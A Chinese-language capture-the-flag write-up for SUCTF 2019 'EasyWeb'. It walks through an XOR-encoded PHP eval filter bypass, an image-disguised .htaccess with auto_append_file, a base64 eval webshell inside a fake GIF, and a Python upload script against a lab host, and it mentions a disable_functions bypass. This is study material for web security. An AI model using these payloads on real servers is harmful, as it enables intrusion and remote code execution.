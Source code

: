 # \[SUCTF 2019]EasyWeb

## \[SUCTF 2019]EasyWeb

## 考点

* PHP传参特性，PHP参数传递特性，PHP参数污染，PHP的字符串解析特性
* .htaccess特性
* .htaccess在没有\<?的情况下制作图片马

## wp

给了源码

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

两个部分，一个要执行get\_the\_flag函数，一个要绕文件上传

### 第一部分

传入参数长度小于等于18，并且由不超过12个字符组成。这些字符不包括这些

```
ASCII范围不包含
0-32，48-57，65-90，97-122，127
还有
'"`~_&.,|=[
```

![](<../.gitbook/assets/image (21) (1) (1) (1).png>)

可以看出来没有过滤的是`$^{}%();`等等。一般来说，PHP传参是`$_GET["a"]`这种形式，但是在PHP7也可以这样`${_GET}{a}`

paylaod: `_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo` 相当于 `_=${_GET}{%ff}();&%ff=phpinfo`

### 第二部分

文件上传，后缀不能有`ph`，上传的文件内容不能有`<?`，并且会用`exif_imagetype`函数对上传文件进行检测

后缀不能有`ph`，那就是`.htaccess`或者`.user.ini`

内容不包含`<?`那就是`<script language="php">`，但是在PHP7被弃用

不确定中间件不确定PHP版本，看一下phpinfo，得到信息<mark style="color:orange;">`PHP7.2`</mark>和<mark style="color:orange;">`apache2`</mark>，REMOTE\_ADDR是10.244.80.46

![](<../.gitbook/assets/image (7) (1) (1).png>)

这样思路就明确了，上传`.htaccess`让服务器把图片文件解析成木马，但有几个问题

* `.htaccess`格式很严格，加上图片头文件apache是解析不了的，如何让它被识别成图片
* 图片文件在没有`<?`的情况下如何写马

<mark style="background-color:orange;">第一个问题有两个方法</mark>

一是

```
#define width 1337
#define height 1337
```

二是

`.htaccess`文件前加上16进制的`x00x00x8ax39x8ax39`，也即wbmp文件的开头，并且`.htaccess`文件中以`0x00`开头是注释符

<mark style="background-color:orange;">第二个问题是用</mark>`.htaccess`文件的`auto_append_file`包含base64解码的shell

.htaccess

```
#define width 1337
#define height 1337 
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_cc551ab005b2e60fbdc88de809b2c4b1/shell.gif"
```

shell.gif

```
GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2EnXSk7Pz4=
```

然后上传可以用POSTman或者脚本都可以

```python
import requests
import base64

htaccess = b"""#define width 1337
#define height 1337 
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_cc551ab005b2e60fbdc88de809b2c4b1/shell.gif"
"""
shell = b"GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2EnXSk7Pz4="
url = "http://fd0b9d5f-f8d6-4615-8a64-5c5eac845091.node4.buuoj.cn:81/?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.gif',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)

```

连接成功后发现权限好像不对，输什么都是返回ret=127，看了一下phpinfo，是要进行bypass\_disable\_function，用蚁剑自带的插件就可以。因为是PHP7.2，所以用了PHP7 Backtrace UAF进行bypass。

![](<../.gitbook/assets/image (16) (1) (1).png>)

## 小结

1. PHP传参是`$_GET["a"]`这种形式，但是在<mark style="color:orange;">PHP7</mark>也可以这样`${_GET}{a}`
2. 用`.htaccess`文件的`auto_append_file`可以包含base64解码的shell

